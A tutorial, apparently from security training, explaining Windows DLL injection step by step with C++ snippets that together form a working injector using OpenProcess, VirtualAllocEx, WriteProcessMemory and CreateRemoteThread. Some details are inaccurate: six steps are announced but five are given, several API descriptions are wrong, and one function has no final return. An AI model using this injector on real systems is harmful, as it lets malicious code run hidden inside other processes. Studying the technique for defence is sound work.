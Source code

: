 # DLL Injection: A High-Level Overview

DLL injection can be broken down into six steps:

1. Locate a target process to inject.
2. Open the target process.
3. Allocate memory region for the malicious DLL.
4. Write the malicious DLL to the allocated memory.
5. Load and execute the malicious DLL.

We will break down a basic DLL injector to identify each of the steps and explain them in more depth below.

## Step 1: Locate a Target Thread

At the first step of DLL injection, we must locate a target thread. A thread can be located from a process using a trio of Windows API calls: `CreateToolhelp32Snapshot()`, `Process32First()`, and `Process32Next()`.

```cpp
DWORD getProcessId(const char *processName) {
    HANDLE hSnapshot = CreateToolhelp32Snapshot(
        TH32CS_SNAPPROCESS, // Include all processes residing on the system
        0 // Indicates the current process
    );
    if (hSnapshot) {
        PROCESSENTRY32 entry;
        entry.dwSize = sizeof(PROCESSENTRY32);
        if (Process32First(hSnapshot, &entry)) {
            do {
                if (!strcmp(entry.szExeFile, processName)) {
                    return entry.th32ProcessID; // Process ID of matched process
                }
            } while (Process32Next(hSnapshot, &entry));
        }
    }
}
```

```cpp
DWORD processId = getProcessId(processName); // Stores the enumerated process ID
```

## Step 2: Open the Target Process

After the PID has been enumerated, we need to open the process. This can be accomplished using Windows API calls such as `GetModuleHandle`, `GetProcAddress`, or `OpenProcess`.

```cpp
HANDLE hProcess = OpenProcess(
    PROCESS_ALL_ACCESS, // Requests all possible access rights
    FALSE, // Child processes do not inherit parent process handle
    processId // Stored process ID
);
```

## Step 3: Allocate Memory for the Malicious DLL

Memory must be allocated for the malicious DLL to reside. This can be accomplished using `VirtualAllocEx`.

```cpp
LPVOID dllAllocatedMemory = VirtualAllocEx(
    hProcess, // Handle for the target process
    NULL, 
    strlen(dllLibFullPath), // Size of the DLL path
    MEM_RESERVE | MEM_COMMIT, // Reserves and commits pages
    PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the committed pages
);
```

## Step 4: Write the Malicious DLL to Allocated Memory

We need to write the malicious DLL to the allocated memory location. This can be done using `WriteProcessMemory`.

```cpp
WriteProcessMemory(
    hProcess, // Handle for the target process
    dllAllocatedMemory, // Allocated memory region
    dllLibFullPath, // Path to the malicious DLL
    strlen(dllLibFullPath) + 1, // Byte size of the malicious DLL
    NULL
);
```

## Step 5: Load and Execute the Malicious DLL

Once the malicious DLL is written to memory, we need to load and execute it. To load the DLL, we use `LoadLibrary` (imported from `kernel32`). Once loaded, `CreateRemoteThread` can be used to execute memory using `LoadLibrary` as the starting function.

```cpp
LPVOID loadLibrary = (LPVOID) GetProcAddress(
    GetModuleHandle("kernel32.dll"), // Handle of the module containing the call
    "LoadLibraryA" // API call to import
);
HANDLE remoteThreadHandler = CreateRemoteThread(
    hProcess, // Handle for the target process
    NULL, 
    0, // Default size from the executable of the stack
    (LPTHREAD_START_ROUTINE) loadLibrary, // Pointer to the starting function
    dllAllocatedMemory, // Pointer to the allocated memory region
    0, // Runs immediately after creation
    NULL
);
```

## Putting It All Together

We can compile these steps together to create a DLL injector. Use the provided C++ injector and experiment with DLL injection.